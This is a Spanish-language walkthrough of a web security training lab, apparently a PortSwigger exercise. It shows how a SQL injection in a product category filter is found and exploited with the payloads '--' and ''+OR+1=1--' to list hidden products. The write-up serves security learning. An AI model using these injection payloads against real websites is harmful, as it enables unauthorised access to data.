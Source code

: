 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)

---

Tenemos un sitio web para realizar compras de productos:
![image](https://github.com/user-attachments/assets/e7f1d850-f540-4cfc-9495-0bae72bb061e)

Podemos buscar productos y realizar filtros según su categoría, probamos filtrar por `Gifts`:
![image](https://github.com/user-attachments/assets/a82cdd53-a451-41de-8bbc-b3da6aedd74f)

Nosotros sabemos que la consulta por detrás es la siguiente:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Y sabemos que el valor de `category` lo toma del parámetro de la url `?category=Gifts`.

Procedemos a intentar romper la consulta, añadiendo el caracter `'`, lo cual cerraría la consulta de la siguiente forma:
```sql
SELECT * FROM products WHERE category = 'Gifts'' AND relesead = 1
```
La última parte de la consulta (`' AND relesead = 1`) queda por fuera y podría causar un error de sintaxis:
![image](https://github.com/user-attachments/assets/b8469c86-9f5b-422f-9eda-9ed3f7cc83d5)

Este es el primer indicador de que podría haber inyección SQL.


Lo que hacemos ahora es añadir el siguiente payload: `'--`
Por lo cual la consulta completa sería:
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND relesead = 1
```
Que es lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'
```


![image](https://github.com/user-attachments/assets/4540d5d6-30f7-45fe-8550-40f44392e647)

Como vemos se realizó la consulta, lo cual confirmamos que hay inyección SQL.

Procedemos a resolver el lab inyectando el siguiente payload: `'+OR+1=1--`

Por lo que la cadena de consulta quedaría:

```sql
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1--' AND relesead = 1
```
Que sería lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1
```

Lo cual se traduce en `mostrame todas las filas de la tabla products donde la categoria es Gifts o donde 1=1`. Por lo que mostrará todos los productos:

![image](https://github.com/user-attachments/assets/acec4257-02e1-4607-a0c5-b9b481997939)





